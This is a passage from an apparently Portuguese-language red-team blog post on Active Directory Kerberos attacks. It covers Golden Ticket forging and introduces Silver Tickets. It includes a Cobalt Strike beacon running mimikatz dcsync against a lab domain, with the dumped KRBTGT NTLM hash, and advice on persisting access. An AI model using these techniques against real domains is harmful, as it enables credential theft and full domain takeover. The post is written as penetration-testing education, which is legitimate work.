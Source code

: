 Domain SID: Domain SID 

KRBTGT NTLM Hash: Hash extraído do usuário KRBTGT.

Como mencionado, o atacante poderá alterar a estrutura do ticket, adicionando outras informações utilizando os parâmetros "/groups:" e "id", para fornecer informções sobre grupos (Grupos com poderes administrativos: 512,513,518,519,520 ) e RID's.

O processo de extração do hash da conta KRBTGT pode ser realizado de diversas formas, para mais informações, recomendo a leitura do blog post [Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/).

Processo de obtenção do hash através de [DCSYNC Attack](https://adsecurity.org/?p=1729).

```terminal
beacon> dcsync hnr.local krbtgt
[*] Tasked beacon to run mimikatz's @lsadump::dcsync /domain:hnr.local /user:krbtgt command
[+] host called home, sent: 746570 bytes
[+] received output:
[DC] 'hnr.local' will be the domain
[DC] 'GOKU.hnr.local' will be the DC server
[DC] 'krbtgt' will be the user account
Object RDN           : krbtgt
** SAM ACCOUNT **
SAM Username         : KRBTGT  
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 11/02/2020 00:41:33
Object Security ID   : S-1-5-21-45967290-1955130809-1078885739-502
Object Relative ID   : 502
Credentials:
  Hash NTLM: 86db69b9000654a8a4d4b6abe6ed1553
```
Com as informações necessárias em mãos, a execução do ataque pode ser concluída.

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/assets/img/sample/ges/mimi.png)

Com a execução do mimikatz, o ticket para o usuário ganderson foi forjado e submetido na sessão atual utilizando um ataque chamado Pass-The-Ticket, parametro "/ptt" (Devo criar um outro blog post mostrando como funciona o Pass-the-ticket e Over Pass the Hash). 

***

### Silver Tickets


Silver Tickets seguem a mesma ideia do Golden Ticket, porém, forjando um TGS (Service Ticket) em vez do TGT. Os tickets são criados utilizando a conta do computador ou conta de serviço do recurso que o atacante deseja acessar. As informações sobre o usuário, grupo e etc podem ser forjadas sem a necessidade de nenhuma troca de informação entre User Workstation e KDC.

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/assets/img/sample/ges/st.png)

Por padrão, as senhas das contas dos computadores são alteradas a cada 30 dias. Logo, o hash da conta pode ser alterado em meio ao projeto, causando perda de acesso. Para contornar o "problema", é possível solicitar a informação sobre a máquina alvo e verificar o tempo limite até a senha ser alterada novamente. 

